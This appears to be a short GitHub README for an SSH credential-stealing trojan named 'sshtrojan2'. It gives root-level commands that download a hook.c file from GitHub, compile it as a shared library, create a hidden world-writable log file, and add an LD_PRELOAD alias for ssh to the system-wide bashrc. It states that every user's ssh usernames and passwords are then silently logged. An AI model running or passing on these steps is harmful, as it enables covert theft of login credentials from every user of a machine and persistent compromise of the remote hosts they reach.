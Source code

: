 # sshtrojan2
Login as `root`, then run these commands:
```bash
wget https://raw.githubusercontent.com/dungkaito/prog03/main/hook.c
gcc -Wall -fPIC -shared -o hook.so hook.c -ldl
cp hook.so /hook.so
touch /.log_sshtrojan2.txt
chmod 777 /.log_sshtrojan2.txt
echo "alias ssh='LD_PRELOAD=/hook.so ssh'" >> /etc/bash.bashrc
```
Now, if someone login as `any user` and `ssh` to `any host`, all usernames and passwords will be logged by `hook.so` shared library

Log file: `/.log_sshtrojan2.txt`
